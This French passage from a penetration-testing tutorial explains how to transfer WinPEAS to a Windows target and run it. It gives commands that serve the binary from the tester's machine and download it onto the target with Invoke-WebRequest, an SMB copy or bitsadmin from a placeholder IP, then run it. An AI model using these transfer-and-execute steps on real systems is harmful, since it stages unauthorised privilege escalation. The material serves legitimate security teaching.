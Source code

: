 ### 1. Téléchargement et Transfert de WinPEAS

Comme LinPEAS, WinPEAS est un exécutable (généralement `winPEAS.exe` ou `winPEASx64.exe` pour les systèmes 64 bits) qui ne nécessite pas d'installation. Il doit être transféré sur la machine Windows cible.

1.  **Téléchargement depuis GitHub** : Le dépôt officiel de PEASS (Privilege Escalation Awesome Scripts SUITE) contient également les versions de WinPEAS.
    *   Rendez-vous sur le dépôt GitHub : [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
    *   Téléchargez la version appropriée pour votre architecture (x86 ou x64) et le type de sortie souhaité (par exemple, `winPEASx64.exe` pour une sortie colorée dans PowerShell).

2.  **Transfert vers la Machine Cible** : Plusieurs méthodes peuvent être utilisées pour transférer WinPEAS vers la machine Windows cible :
    *   **Serveur Web Simple (Python)** : Si Python est disponible sur la machine de pentest.
        *   **Sur votre machine de pentest** (dans le répertoire où se trouve `winPEASx64.exe`) :
            ```bash
            python3 -m http.server 8000
            ```
        *   **Sur la machine cible (PowerShell)** :
            ```powershell
            Invoke-WebRequest -Uri http://<IP_de_votre_machine_pentest>:8000/winPEASx64.exe -OutFile C:\Users\Public\winPEASx64.exe
            ```
    *   **SMB (Server Message Block)** : Si vous avez un partage SMB configuré sur votre machine de pentest.
        *   **Sur votre machine de pentest** (créez un partage SMB, par exemple avec Impacket's `smbserver.py`)
        *   **Sur la machine cible (CMD ou PowerShell)** :
            ```cmd
            copy \\<IP_de_votre_machine_pentest>\share\winPEASx64.exe C:\Users\Public\
            ```
    *   **WebClient (si le service est activé)** :
        *   **Sur la machine cible (CMD ou PowerShell)** :
            ```cmd
            bitsadmin /transfer mydownloadjob /download /priority normal http://<IP_de_votre_machine_pentest>:8000/winPEASx64.exe C:\Users\Public\winPEASx64.exe
            ```

### 2. Exécution de WinPEAS

Une fois `winPEASx64.exe` transféré sur la machine cible, vous pouvez l'exécuter directement.

1.  **Ouvrir une Invite de Commandes ou PowerShell** : Naviguez jusqu'au répertoire où vous avez transféré WinPEAS (par exemple, `C:\Users\Public\`).

2.  **Exécuter WinPEAS** :
    ```cmd
    winPEASx64.exe
    ```
    *   **Exécution avec des options spécifiques** : WinPEAS a plusieurs options pour affiner la recherche ou la sortie. L'option la plus courante est `cmd.exe` pour une sortie compatible avec l'invite de commande, ou `powershell` pour une sortie colorée dans PowerShell.
        ```cmd
        winPEASx64.exe cmd
        # Ou pour une sortie plus rapide et moins verbeuse
        winPEASx64.exe quiet
        ```
